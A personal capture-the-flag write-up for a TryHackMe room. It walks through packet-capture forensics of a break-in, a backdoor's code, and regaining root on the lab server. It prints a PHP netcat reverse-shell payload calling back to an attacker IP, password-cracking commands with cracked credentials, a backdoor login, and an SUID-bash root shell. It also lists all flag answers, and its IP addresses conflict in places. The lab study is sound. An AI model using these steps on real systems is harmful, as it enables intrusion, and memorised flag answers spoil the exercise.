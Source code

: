 # Overpass 2: Hacked

author:: Nathan Acks  
date:: 2021-12-14

* [TryHackMe: Overpass 2: Hacked](https://tryhackme.com/room/overpass2hacked)

The flags are structured to basically walk us through this room.

## Forensics: Analyze the PCAP

I've not actually used Wireshark outside of the TryHackMe: Wireshark 101 "room" (and a few short digressions in other rooms), so I'm honestly a little worried about my abilities here...

Filtering the PCAP file for HTTP requests reveals a single POST from 192.168.179.145 to http://192.168.170.159/development/upload.php. A subsequent request from 192.168.179.145 pulls the directory listing of /development/uploads/, and then GETs /development/uploads/payload.php. This suggests that 192.168.179.145 is the "attacker" and 192.168.179.145 is the target system.

FLAG 1: What was the URL of the page they used to upload a reverse shell? - /development/

We can save off this POST request to get at the uploaded payload.php file, which turns out to have the contents:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

FLAG 2: What payload did the attacker use to gain access? - `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

This is popping a simple reverse shell through netcat that connects back to 192.168.170.145:4242, which would seem to confirm that this was the machine used by the attacker.

This means that penetration occurs when this file is requested in packet 27.

Looking at subsequent TCP packets, we can see what the attacker typed in the packets going from 192.168.170.145 -> 192.168.170.159, and the responses in the packets going from 192.168.170.159 -> 192.168.170.145. Requests/Responses coming through netcat use the TCP PSH flag, so we can filter by `tcp.port == 4242 and tcp.flags.push` to zoom in on this conversation.

The attacker eventually issues `su james` to elevate privileges  (packet 71), and a few packets down we can see `james`'s password.

FLAG 3: What password did the attacker use to privesc? - `whenevernoteartinstant`

In packet 112 the attacker cats /etc/shadow, and we get a full dump in packet 114. They then issue `git clone https://github.com/NinjaJc01/ssh-backdoor`, generate an SSH private key, and switch to the included `backdoor` binary, at which point we lose the thread.

FLAG 4: How did the attacker establish persistence? - https://github.com/NinjaJc01/ssh-backdoor

Returning to packet 114, we can use Copy > Copy Bytes as Printable Text to pull the contents of /etc/shadow (+ a little garbage).  After a little cleanup, we have 5 users with passwords (including `james`, which we know already).

We extract the hashes and then throw Hashcat at this using the suggested "fasttrack" wordlist.

```bash
hashcat -m 1800 \
        -O hashes.txt /usr/share/wordlists/fasttrack.txt
```

Four out of the five passwords turn out to be crackable:

```
paradox:secuirty3
szymex:abcd123
bee:secret12
muirland:1qaz2wsx
```

This ironically *doesn't* include `james`!

FLAG 5: How many of the system passwords were crackable? - 4

* [TryHackMe: Wireshark 101](tryhackme-wireshark-101.md)
* [Using "netcat"](netcat.md)

## Research: Analyze the Code

It turns out that https://github.com/NinjaJc01/ssh-backdoor is a real thing, with the code itself living in https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go.

FLAG 6: What's the default hash for the backdoor? - `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

FLAG 7: What's the hardcoded salt for the backdoor? - `1c362db832f3f864c8c2fe05f2002a05`

The hashPassword() function here takes the SHA-512 hash of the provided password + the salt. The default has is overridden using the `-a` flag. We can see that the attacker used this flag when the `backdoor` was called in packet 3479.

```bash
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

FLAG 8: What was the hash that the attacker used? - `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

We can use Hashcat to again crack this.

```bash
hashcat \
	-m 1710 \
	-O 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 \
	   ~/.local/share/red-team/wordlists/rockyou.txt
```

FLAG 9: What's the password? - `november16`

* [Using Hashcat](hashcat.md)
* [ssh-backdoor / main.go](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)

## Attack: Get Back In!

The last bit of this CTF uses a server, which for this run is at 10.10.114.161. Just visiting that page gives us our first flag.

FLAG 10: What message did the attacker leave as a heading when they defaced the website? - H4ck3d by CooctusClan

We'll get back in using the backdoor that the attacker set up. From the backdoor code we know that the SSH server is running on port 2222, and there don't seem to be any user checks. So...

```bash
env -u SSH_AUTH_SOCK -u SSH_AGENT_PID \
	ssh -p 2222 user@10.10.114.161
```

...lets us in as expected (with the password of `november16`).

The user flag is in /home/james/user.txt.

FLAG 11: What's the user flag? - `thm{d119b4fa8c497ddb0525f7ad200e6567}`

Unfortunately, none of the passwords we cracked earlier work anymore. After checking a couple of possible exploits to get around this, I decided just to see what SUID binaries were on the system (figuring that I'd check them against GTFOBins).

```bash
find / -type f -perm -u+s -exec ls -l "{}" \;
```

This turned up an unusual file - /home/james/.suid_bash.  Could this be... an SUID copy of Bash? Indeed it is!

```bash
/home/james/.suid_bash -p # Root shell!
```

The root flag is then in /root/root.txt.

FLAG 12: What's the root flag? - `thm{d53b2684f169360bb9606c333873144d}`

* [Exploiting Bash](exploiting-bash.md)
* [GTFOBins](https://gtfobins.github.io/)

ELAPSED TIME: 1 h 43 min
